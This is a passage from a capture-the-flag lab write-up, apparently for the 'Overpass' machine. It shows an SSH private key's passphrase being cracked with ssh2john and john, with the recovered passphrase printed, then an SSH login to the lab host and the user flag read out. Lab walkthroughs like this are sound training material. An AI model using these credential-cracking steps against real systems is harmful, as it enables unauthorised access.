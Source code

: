   ```
  ```

- Now comes the easy part. Save the RSA Key, convert it to hash and crack it in order to get a passphrase. Change the permission of `id_rsa` to 600 and login with SSH with found credentials and passphrase.

  ```
  mousepad id_rsa
  
  ssh2john id_rsa > james.hash
  
  john --wordlist=/rockyou.txt james.hash 
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
  Cost 2 (iteration count) is 1 for all loaded hashes
  Will run 2 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  james13          (id_rsa)     
  1g 0:00:00:00 DONE (2025-05-12 14:14) 100.0g/s 1337Kp/s 1337Kc/s 1337KC/s lisa..honolulu
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed. 
  
  chmod 600 id_rsa

  ssh -i id_rsa james@10.10.196.17

  Enter passphrase for key 'id_rsa': 
  Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)
  [SNIP!]
  james@overpass-prod:~$ whoami
  james
  james@overpass-prod:~$ id
  uid=1001(james) gid=1001(james) groups=1001(james)
  ```

---

## 🧍 User Privilege Escalation

- Usual procedure for finding the user flag.

  ```
  james@overpass-prod:~$ ls -al
  total 48
  drwxr-xr-x 6 james james 4096 Jun 27  2020 .
  drwxr-xr-x 4 root  root  4096 Jun 27  2020 ..
  lrwxrwxrwx 1 james james    9 Jun 27  2020 .bash_history -> /dev/null
  -rw-r--r-- 1 james james  220 Jun 27  2020 .bash_logout
  -rw-r--r-- 1 james james 3771 Jun 27  2020 .bashrc
  drwx------ 2 james james 4096 Jun 27  2020 .cache
  drwx------ 3 james james 4096 Jun 27  2020 .gnupg
  drwxrwxr-x 3 james james 4096 Jun 27  2020 .local
  -rw-r--r-- 1 james james   49 Jun 27  2020 .overpass
  -rw-r--r-- 1 james james  807 Jun 27  2020 .profile
  drwx------ 2 james james 4096 Jun 27  2020 .ssh
  -rw-rw-r-- 1 james james  438 Jun 27  2020 todo.txt
  -rw-rw-r-- 1 james james   38 Jun 27  2020 user.txt
  
  james@overpass-prod:~$ cat user.txt 
  thm{65c1aaf000506e56996822c6281e6bf7}
  ```
  